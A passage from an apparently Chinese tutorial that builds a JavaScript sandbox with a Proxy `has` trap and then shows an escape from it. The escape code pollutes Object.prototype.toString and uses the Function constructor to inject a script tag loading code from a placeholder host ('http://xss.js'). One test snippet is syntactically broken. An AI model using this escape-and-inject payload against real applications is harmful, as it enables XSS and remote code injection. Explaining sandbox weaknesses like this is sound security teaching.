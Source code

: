 ```cpp
function compileCode (src) {    
  src = `with (exposeObj) { ${src} }` 
  return new Function('exposeObj', src)   
} 
function proxyObj(originObj){ 
    let exposeObj = new Proxy(originObj,{ 
        has:(target,key)=>{ 
            if(["console","Math","Date"].indexOf(key)>=0){  
                return target[key]  
            } 
            if(!target.hasOwnProperty(key)){  
                throw new Error(`Illegal operation for key ${key}`) 
            } 
            return target[key]  
        },
    })  
    return exposeObj  

} 
function createSandbox(src,obj){  
 let proxy = proxyObj(obj)  
 compileCode(src).call(proxy,proxy) //绑定 this 防止 this 访问 window 
}
```

通过设置 has 函数，可以监听到变量的访问，在上述代码中，仅暴露个别外部变量供代码访问，其余不存在的属性，都会直接抛出 error。其实还存在 get、set 函数，但是如果 get 和 set 函数只能拦截到当前对象属性的操作，对外部变量属性的读写操作无法监听到，所以只能使用 has 函数了。接下来我们测试一下：

```cpp
const testObj = { 
    value:1,  
    a:{ 
        b:  
    } 
} 
createSandbox("value='haha';console.log(a)",testObj)
```

看起来一切似乎没有什么问题，但是问题出在了传入的对象，当调用的是 console.log(a.b)的时候，has 方法是无法监听到对 b 属性的访问的，假设所执行的代码是不可信的，这时候，它只需要通过 a.b.**proto**就可以访问到 Object 构造函数的原型对象，再对原型对象进行一些篡改，例如将 toString 就能影响到外部的代码逻辑的。

```cpp
createSandbox(` 
a.b.__proto__.toString = ()=>{  
 new (()=>{}).constructor("var script = document.createElement('script'); 
 script.src = 'http://xss.js';
 script.type = 'text/javascript'; 
 document.body.appendChild(script);")() 
}
`,testObj)  
console.log(testObj.a.b.__proto__.toString())
```

例如上面所展示的代码，通过访问原型链的方式，实现了沙箱逃逸，并且篡改了原型链上的 toString 方法，一旦外部的代码执行了 toString 方法，就可以实现 xss 攻击，注入第三方代码；由于在内部定义执行的函数代码逻辑，仍然会沿着作用于链查找，为了绕开作用域链的查找，笔者通过访问箭头函数的 constructor 的方式拿到了构造函数 Function，这个时候，Funtion 内所执行的 xss 代码，在执行的时候，便不会再沿着作用域链往上找，而是直接在全局作用域下执行，通过这样的方式，实现了沙箱逃逸以及 xss 攻击。
